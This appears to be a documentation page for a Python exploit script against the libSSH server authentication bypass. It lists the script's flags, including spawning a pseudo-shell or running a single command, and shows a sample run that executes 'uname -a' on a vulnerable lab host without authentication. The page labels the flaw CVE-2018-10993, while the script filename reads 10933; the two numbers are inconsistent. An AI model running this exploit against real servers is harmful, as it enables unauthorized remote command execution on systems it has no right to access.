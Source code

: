 icon:fontawesome/solid/unlock-keyhole

# CVE-2018-10993

CVE-2018-10993 libSSH authentication bypass exploit

A vulnerability was found in libssh's server-side state machine before versions 0.7.6 and 0.8.4. A malicious client could create channels without first performing authentication, resulting in unauthorized access.

- [cve-2018-10993.py](../assets/files/cve-2018-10993.py)

## Usage

```bash
python3 cve-2018-10933.py [OPTIONS] <target>
```

## Flags

```bash
$ python3 cve-2018-10933.py -h

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1

usage: cve-2018-10933.py [-h] [-p PORT] [-s] [-c COMMAND] [--logfile LOGFILE]
                         [-v] [-d]
                         host

If there was neither shell nor command option specified - exploit will switch
to detect mode yielding vulnerable/not vulnerable flag.

positional arguments:
  host                  Hostname/IP address that is running vulnerable libSSH
                        server.

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  libSSH port
  -s, --shell           Exploit the vulnerability and spawn pseudo-shell
  -c COMMAND, --command COMMAND
                        Execute single command.
  --logfile LOGFILE     Logfile to write paramiko connection logs
  -v, --verbose         Display verbose output.
  -d, --debug           Display debug output.
```

## Examples

```bash
$ python3 cve-2018-10933.py 192.168.56.100 -v -c 'uname -a'

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1

[+] Connected to the target: 192.168.56.100:22
[?] Obtained banner: "SSH-2.0-libssh_0.8.3"
[+] Target seems to be VULNERABLE!
[?] Connecting with 192.168.56.100:22 ...
[+] Connected.

$ uname -a
Linux vulnerable 3.14.1-pentesterlab #1 SMP Sun Jul 6 09:16:00 EST 2014 i686 GNU/Linux
```

## References

- [Github](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)
